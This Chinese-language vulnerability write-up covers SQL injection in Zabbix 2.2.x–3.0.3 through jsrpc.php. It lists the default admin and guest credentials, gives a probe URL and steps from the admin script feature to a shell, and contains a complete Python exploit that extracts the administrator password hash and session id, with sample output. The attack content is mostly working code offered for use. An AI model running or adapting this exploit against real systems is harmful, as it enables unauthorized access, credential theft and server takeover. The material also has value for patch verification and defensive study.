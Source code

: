 ###漏洞详情 ###
Zabbix 是由 Alexei Vladishev 开发的一种网络监视、管理系统，基于 Server-Client 架构。可用于监视各种网络服务、服务器和网络机器等状态。本着其开源、安装简单等特点被广泛使用， zabbix安装完成后，超级管理员账号默认为：

        用户名：Admin   密码：zabbix。
二、Guest用户
  zabbix系统安装完成后，默认会有一个guest账号：

        用户名：guest   密码为空  ，只能看到zabbix后台，没有具体内容
但zabbix 2.2.x, 3.0.0-3.0.3版本存在SQL注入漏洞，攻击者无需授权登陆即可登陆zabbix管理系统，进入后台后script等功能直接获取zabbix服务器的操作系统权限

### 漏洞利用 ###
1.访问的zabbix的地址后面加上如下url：

    /jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&tim
    estamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=hi
    story.php&profileIdx=web.item.graph&profileIdx2=2'3297&updateProfil
    e=true&screenitemid=&period=3600&stime=20160817050632&resourcetype=
    17&itemids%5B23297%5D=23297&action=showlatest&filter=&filter_task=&
    mark_color=1

![](zabbixSQL注入漏洞/20191129181122-986155fe-1290-1.png)
输出结果，若包含：You have an error in your SQL syntax;表示漏洞存在。

2.首先在Administration页面的scrpit功能栏创建script如下：
![](zabbixSQL注入漏洞/20191129181125-99ce7aac-1290-1.png)

3.然后重点在于找触发点，找到触发点才能执行。方法很多，这里拿常用的举例。
![](zabbixSQL注入漏洞/20191129181125-99fc9798-1290-1.png)
4.执行成功后即可getshell。
![](zabbixSQL注入漏洞/20191129181125-9a309278-1290-1.png)

### EXP ###


    #!/usr/bin/env python
    # -*- coding: utf-8 -*-
    # Date: 2016/8/18
    # Modified by: Jamin Zhang
    
    import urllib2
    import sys, os
    import re
    
    def deteck_Sql():
    u'检查是否存在 SQL 注入'
    payload = "jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&timestamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=history.php&profileIdx=web.item.graph&profileIdx2=999'&updateProfile=true&screenitemid=&period=3600&stime=20160817050632&resourcetype=17&itemids%5B23297%5D=23297&action=showlatest&filter=&filter_task=&mark_color=1"
    try:
    response = urllib2.urlopen(url + payload, timeout=10).read()
    except Exception, msg:
    print msg
    else:
    key_reg = re.compile(r"INSERT\s*INTO\s*profiles")
    if key_reg.findall(response):
    return True
    
    
    def sql_Inject(sql):
    u'获取特定sql语句内容'
    payload = url + "jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&timestamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=history.php&profileIdx=web.item.graph&profileIdx2=" + urllib2.quote(
    sql) + "&updateProfile=true&screenitemid=&period=3600&stime=20160817050632&resourcetype=17&itemids[23297]=23297&action=showlatest&filter=&filter_task=&mark_color=1"
    try:
    response = urllib2.urlopen(payload, timeout=10).read()
    except Exception, msg:
    print msg
    else:
    result_reg = re.compile(r"Duplicate\s*entry\s*'~(.+?)~1")
    results = result_reg.findall(response)
    if results:
    return results[0]
    
    
    if __name__ == '__main__':
    # os.system(['clear', 'cls'][os.name == 'nt'])
    print '+' + '-' * 60 + '+'
    print u'\t   Python Zabbix < 3.0.4 SQL 注入 Exploit'
    print '\tOrigin Author: http://www.waitalone.cn/'
    print '\t\t   Modified by: Jamin Zhang'
    print '\t\t   Date: 2016-08-18'
    print '+' + '-' * 60 + '+'
    if len(sys.argv) != 2:
    print u'用法: ' + os.path.basename(sys.argv[0]) + u' [Zabbix Server Web 后台 URL]'
    print u'实例: ' + os.path.basename(sys.argv[0]) + ' http://jaminzhang.github.io'
    sys.exit()
    url = sys.argv[1]
    if url[-1] != '/': url += '/'
    passwd_sql = "(select 1 from(select count(*),concat((select (select (select concat(0x7e,(select concat(name,0x3a,passwd) from  users limit 0,1),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)"
    session_sql = "(select 1 from(select count(*),concat((select (select (select concat(0x7e,(select sessionid from sessions limit 0,1),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)"
    if deteck_Sql():
    print u'Zabbix 存在 SQL 注入漏洞！\n'
    print u'管理员  用户名密码：%s' % sql_Inject(passwd_sql)
    print u'管理员  Session_id：%s' % sql_Inject(session_sql)
    else:
    print u'Zabbix 不存在 SQL 注入漏洞！\n'
    

以下为执行上述 Exp 脚本输出结果：

    C:\Users\xxx\Desktop>python zabbix_exp.py
    +------------------------------------------------------------+
       Python Zabbix < 3.0.4 SQL 注入 Exploit
       Origin Author: http://www.waitalone.cn/
       Modified by: Jamin Zhang
       Date: 2016-08-18
    +------------------------------------------------------------+
    用法: zabbix_exp.py [Zabbix Server Web 后台 URL]
    实例: zabbix_exp.py http://jaminzhang.github.io
    
    C:\Users\xxx\Desktop>python zabbix_exp.py http://192.168.56.11/zabbix
    +------------------------------------------------------------+
       Python Zabbix < 3.0.4 SQL 注入 Exploit
       Origin Author: http://www.waitalone.cn/
       Modified by: Jamin Zhang
       Date: 2016-08-18
    +------------------------------------------------------------+
    Zabbix 存在 SQL 注入漏洞！
    
    管理员  用户名密码：Zabbix:5fce1b3e34b520afeffb37ce08c7cd66
    管理员  Session_id：16c9fe855b00a92112ae55cad58792c6


### 参考链接 ###
https://xz.aliyun.com/t/6874
https://jaminzhang.github.io/security/Zabbix-latest-SQL-Injection-Vulnerability-and-EXP/